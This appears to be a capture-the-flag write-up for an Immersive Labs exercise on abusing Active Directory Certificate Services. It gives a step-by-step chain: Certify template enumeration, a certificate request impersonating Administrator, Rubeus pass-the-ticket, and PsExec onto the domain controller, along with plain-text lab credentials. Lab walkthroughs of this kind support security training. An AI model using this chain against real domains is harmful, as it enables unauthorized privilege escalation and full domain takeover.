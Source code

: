```yaml
---
date: 2025-03-29
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.12 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce', 'windows']

description: "Kerberos Ep.12 – Active Directory Certificate Services - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services


![image1](../resources/7d7a429777be4cf19f3ba70208d789a8.png)

# ![image2](../resources/c4da4ac2027b4e3a91982717374c9066.png)

- RDP:

```bash
xfreerdp /v:10.102.155.250 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image3](../resources/a9a5876ac10240f8aad2da637531d87b.png)

- Find vulnerable templates:

```bash
.\Certify.exe find /vulnerable

```

![image4](../resources/4d5053b71ba6429599937c68df085f50.png)


![image5](../resources/1c64d1f5b87b4b968899a696cd2d43c7.png)

Certify request /ca:\<Name of the CA retrieved previously\> /template:\<Name of the vulnerable template\> /altname:\<User to impersonate\>

```bash
.\Certify.exe request /ca:DC01.krbtown.local\krbtown-DC01-CA /template:VulnTemplate /altname:Administrator

```

![image6](../resources/ad0e7c5968c24307849204d267c2bfb7.png)


![image7](../resources/e2efa4d4c0a54ff6840669157a13476a.png)


![image8](../resources/d86ff838cf6a4702bfe5e7ee7efaf3a5.png)

- Copy RSA key and Cert and paste in to Kali (cert.pem):

- Run (Leave passwords blank):

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

![image9](../resources/8e7f664fc6dc4c7fbf64c38c6cb1ef51.png)


![image10](../resources/85bc0f8d3de64b9d8cfab52f5f1134b0.png)


![image11](../resources/85dc7fd2b2ee45a2b23c26ff1d216147.png)

- Copy that file through the mounted drive to the Windows Desktop

- Open Powershell:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:Administrator /ptt

```

![image12](../resources/266bfb7099854794b544397155b6ea0d.png)


![image13](../resources/10154dc0477d4a01b64822ffb0026a7f.png)

- Now that you have a TGT for the administrator user, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```

![image14](../resources/381d5bb04ab04527a744dbb196399635.png)


![image15](../resources/4d997eadf3e646d898b9bcc6d7ae6cf2.png)
